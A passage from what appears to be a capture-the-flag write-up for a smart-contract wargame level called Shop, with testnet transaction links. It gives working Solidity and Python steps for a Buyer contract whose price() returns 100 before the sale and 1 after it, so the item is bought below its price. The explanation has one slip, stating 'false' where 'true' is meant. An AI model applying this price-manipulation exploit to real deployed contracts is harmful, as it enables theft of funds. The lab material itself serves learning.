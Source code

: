 With this call, I determine through the assertion if the action of the challenge instance will work or not.

Block explorer: https://rinkeby.etherscan.io/tx/0xdc37b616c23234b2f87eaeda94715482580a129c6ce2bad5f28a77aefd5b79c7 (reverted tx)

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x778e0059d279b716c24808fd4ecc2ea79ca6b7396ee05da2e7ed35ea6ca3733b

***

## Shop

### Objectives

Сan you get the item from the shop for less than the price asked?

### Solution

It is possible to return different values based on the state variable `isSold`. After the check passes where `_buyer.price() >= price && !isSold` returns true, we can internally change our contract so that the value that `price()` returns changes based on `isSold`.

All we have to do is make sure the function `price()` returns 100 when `isSold` is false and a value under 100 when `isSold` is false.

### How I did it

1. Code and deploy a Buyer contract (at: `0xB9dcacbc393D15fEa292705d66c1549035CcB3ee`) where I define the `price()` function as follows:

```js
function price() public view returns (uint256) {
    if (shopContract.isSold()) {
        return 1;
    } else {
        return 100;
    }
}
```

If `isSold` is true, the price gets overwritten by a 1, however, in the if statement, we pass the check (requiring `price()` to return 100) since `isSold` is still false.

In python:

```python
buyer = Buyer.deploy(shop.address, _from)
```

2. Call the buy function in the Shop contract, which the Shop contract expects to see coming from another contract (in this case my Buyer contract).

```python
buyer.shop(_from)
```
